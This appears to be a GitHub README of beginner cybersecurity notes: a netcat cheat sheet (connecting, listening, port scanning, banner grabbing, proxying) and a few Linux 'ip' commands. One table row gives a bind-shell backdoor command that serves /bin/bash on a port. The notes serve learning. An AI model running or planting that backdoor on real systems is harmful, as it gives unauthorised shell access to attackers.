 <p align="center">
  <img src="https://github.com/carnifex17/Cybersecurity-Notes/blob/main/images/cyberspace.gif">
</p>
---
# Table of Contents
---
-[Commands and Utilities]()
-[Theory]()

---
# Commands and Utilities
---
## NETCAT

**Universal utility for network connection in Unix and similar operating systems**

---

|Command|Explanation|
|-|-|
|`nc host port`|Connects to the host on the specified port|
|`nc -l -p port`|Starts nc in listener mode on the specified port|
|`nc -z host {port-range}`|Basic port scanner|
|`nc -v host port`|Get banner|
|`nc -l -p local_port -c 'nc remote_host remote_port'`|Configures a basic proxy where it listens for a specific local port and forwards it to a remote server|
|`nc -l -p 1234 -e /bin/bash`|Simple backdoor|

---


## IP

**Linux command to manage ІР. Older brother of ifconfig**

---

|Command|Explanation|
|-|-|
|`ip addr`|Shows all addresses|
|`ip -4 addr`|Shows IPv4 address|
|`ip -6 addr`|Shows IPv6 address|
---
